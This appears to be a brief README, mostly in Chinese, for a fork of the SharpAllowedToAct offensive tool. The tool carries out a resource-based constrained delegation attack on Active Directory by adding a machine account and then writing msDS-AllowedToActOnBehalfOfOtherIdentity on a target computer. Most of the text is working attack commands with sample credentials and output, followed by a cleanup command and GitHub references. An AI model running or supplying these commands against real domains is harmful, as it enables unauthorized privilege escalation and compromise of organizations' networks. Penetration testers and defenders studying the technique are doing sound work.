 # SharpAllowedToAct

仅优化了代码逻辑和解决了一点BUG

使用 `impacket addcomputer.py` 添加机器账户后，再修改 `msds-allowedtoactonbehalfofotheridentity`

```powershell
SharpAllowedToAct.exe -m Fake -u User -p Password@1234 -t PC -a AD -d domain.local
[+] Domain = domain.local
[+] Domain Controller = AD
[+] Machine added by the attacker = Fake$
[+] Distinguished Name = CN=Fake,CN=Computers,DC=domain,DC=local
[+] Attempting LDAP login...
[+] SID of the machine added by the attacker: S-1-5-21-2178918139-4193269905-276373488-1630
[+] Attribute changed successfully
[+] Done!

SharpAllowedToAct.exe -m Fake -u User -p Password@1234 -t PC -a AD -d domain.local -c true
[+] Clearing attribute...
[+] Attribute changed successfully
[+] Done!
```

## References 📚

https://github.com/pkb1s/SharpAllowedToAct

https://github.com/Jumbo-WJB/SharpAllowedToAct-Modify